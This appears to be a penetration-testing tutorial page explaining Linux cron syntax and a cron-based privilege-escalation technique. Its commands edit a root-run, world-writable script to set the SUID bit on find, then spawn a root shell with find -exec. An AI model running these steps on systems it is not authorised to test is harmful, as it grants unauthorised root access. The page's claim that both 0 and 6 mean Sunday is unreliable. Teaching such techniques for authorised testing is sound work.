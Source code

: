 # 5.2.3 CronJobs

## CronJobs

<details>

<summary>What is a CronJob?</summary>

**CronJobs** is a scheduled task or command that is automatically executed at specified intervals on a Unix-like operating system. The name "cron" comes from the Greek word "chronos," meaning time, and it is a time-based job scheduler in Unix-like operating systems.

Cron jobs are commonly used for automating repetitive tasks, system maintenance, or any task that needs to be performed at specific intervals. These tasks can include things like running scripts, backing up data, updating databases, or any other routine maintenance.

The schedule for a cron job is defined using a cron expression, which consists of five fields representing the minute, hour, day of the month, month, and day of the week. For example, a cron expression like "0 2 \* \* \*" would indicate a job that runs at 2:00 AM every day.

Here is a breakdown of the cron expression fields:

1st \*: Minute (0 - 59)

2nd \*: Hour (0 - 23)

3rd \*: Day of the month (1 - 31)

4th \*: Month (1 - 12)

5th \*: Day of the week (0 - 6, where both 0 and 6 represent Sunday).

After this there's a username (root) and path of command to execute (program path) and eventually an argument (arg1).

</details>

#### Example of CronJob definition

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

This is an example of CronJob in python language that execute a bash command on the system:

```python
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /home/new_user/disk_clean* ')
except:
    sys.exit()
```

E.g. considering that CronJob has maximum permissions (777):

```bash
*/1 *   * * *   root    /home/new_user/disk_cleaner.py
```

we can modify python script cronjob and execute command to escalate privilege for a normal user:

os.system(~~'rm -r /home/new\_user/disk\_clean\* ')~~ -> 'chmod u+s /usr/bin/find '

waiting 1 minute new\_user obtain SUID permissions for find command (ls -l /usr/bin/find) and executing **`find`** command we'll gain root privilege:

```bash
find /home -exec "/bin/bash" \;
```
